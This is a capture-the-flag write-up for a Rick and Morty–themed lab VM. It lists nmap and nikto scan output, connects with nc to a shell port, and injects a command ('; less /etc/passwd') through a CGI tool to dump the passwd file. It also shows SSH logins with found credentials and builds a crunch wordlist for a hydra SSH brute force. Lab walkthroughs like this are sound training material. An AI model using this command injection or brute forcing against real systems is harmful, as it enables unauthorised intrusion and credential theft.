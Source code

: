Using nmap on the ip using SYN and version scan.

                └─$ sudo nmap -sV -sS -p- 192.168.42.92
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 15:28 IST
                Nmap scan report for 192.168.42.92
                Host is up (0.00050s latency).
                Not shown: 65528 closed tcp ports (reset)
                PORT      STATE SERVICE VERSION
                21/tcp    open  ftp     vsftpd 3.0.3
                22/tcp    open  ssh?
                80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
                9090/tcp  open  http    Cockpit web service 161 or earlier
                13337/tcp open  unknown
                22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
                60000/tcp open  unknown
                3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port22-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(NULL
                SF:,42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4
                SF:\.0-31-generic\x20x86_64\)\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port13337-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port60000-TCP:V=7.93%I=7%D=5/17%Time=6464A55E%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.
                SF:\.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20re
                SF:verse\x20shell\.\.\.\n#\x20");
                MAC Address: 08:00:27:B9:12:62 (Oracle VirtualBox virtual NIC)
                Device type: general purpose
                Running: Linux 3.X|4.X
                OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
                OS details: Linux 3.2 - 4.9
                Network Distance: 1 hop
                Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

                OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 43.42 seconds


Flag from fingerprint:

      1.FLAG:{TheyFoundMyBackDoorMorty}


http interface flag 9090 flag:

      2.FLAG {THERE IS NO ZEUS, IN YOUR FACE!}

ftp flag Users flag:
      
      3.FLAG{Whoa this is unexpected}

Reverse shell using nc command in the port 60000
command:

    $nc <ip> 60000

reverse shell flag:
      
      4.FLAG{Flip the pickle Morty!} - 10 Points


Busting the directories in the Morty's website using nikto
result:

      $ nikto -host http://192.168.42.8/ 
      - Nikto v2.5.0
      ---------------------------------------------------------------------------
      + Target IP:          192.168.42.8
      + Target Hostname:    192.168.42.8
      + Target Port:        80
      + Start Time:         2023-05-18 08:35:41 (GMT5.5)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.27 (Fedora)
      + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
      + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
      + Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
      + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE .
      + /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
      + /passwords/: Directory indexing found.
      + /passwords/: This might be interesting.
      + /icons/: Directory indexing found.
      + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
      + 8908 requests: 0 error(s) and 9 item(s) reported on remote host
      + End Time:           2023-05-18 08:35:48 (GMT5.5) (7 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested

Opening the /passwords/ dir in the ip has a file FLAG.txt 
      
      5.FLAG{Yeah d- just don't do it.} 

The directory also has a html file called passwords.html where it has a password commented on its html code
password: winter

Using robots.txt in the ip results:

      They're Robots Morty! It's ok to shoot them! They're just Robots!

      /cgi-bin/root_shell.cgi
      /cgi-bin/tracertool.cgi
      /cgi-bin/*
/cgi-bin/tracertool.cgi contains a command excecutable shell where we use the command:
      
      ; less /etc/passwd
to view the contents of passwd file which has the details of the usernames

Output:

      root:x:0:0:root:/root:/bin/bash
      bin:x:1:1:bin:/bin:/sbin/nologin
      daemon:x:2:2:daemon:/sbin:/sbin/nologin
      adm:x:3:4:adm:/var/adm:/sbin/nologin
      lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
      sync:x:5:0:sync:/sbin:/bin/sync
      shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
      halt:x:7:0:halt:/sbin:/sbin/halt
      mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
      operator:x:11:0:operator:/root:/sbin/nologin
      games:x:12:100:games:/usr/games:/sbin/nologin
      ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
      nobody:x:99:99:Nobody:/:/sbin/nologin
      systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
      systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
      systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
      systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
      dbus:x:81:81:System message bus:/:/sbin/nologin
      polkitd:x:997:996:User for polkitd:/:/sbin/nologin
      sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
      rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
      abrt:x:173:173::/etc/abrt:/sbin/nologin
      cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
      rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
      chrony:x:995:993::/var/lib/chrony:/sbin/nologin
      tcpdump:x:72:72::/:/sbin/nologin
      RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
      Morty:x:1001:1001::/home/Morty:/bin/bash
      Summer:x:1002:1002::/home/Summer:/bin/bash
      apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
We can try the three usernames and the password winter with ssh
command:
  
      $ssh Summer@192.168.42.8 -p 22222

uname: Summer   pass: winter   satisfied!
Inside the Summer dir we have a FLAG.txt 

    6.FLAG{Get off the high road Summer!} 






pass:Meeseek
zip:
7.FLAG: {131333}


safe flag:
8.FLAG{And Awwwaaaaayyyy we Go!} - 20 Points


safe hint:

      Ricks password hints:
       (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
      Follow these clues, in order


      1 uppercase character
      1 digit
      One of the words in my old bands name.  ---> Flesh Curtains

crunch the password list
crunch 7 7 ,%Flesh -O >>yourfile.txt
crunch 10 10 ,%Curtains -O>>Yourfile.txt


bruteforce using hydra
$ hydra -l RickSanchez -P yourfile.txt 192.168.42.8 ssh  -s  22222



flag root access:
9.FLAG: {Ionic Defibrillator} - 30 points



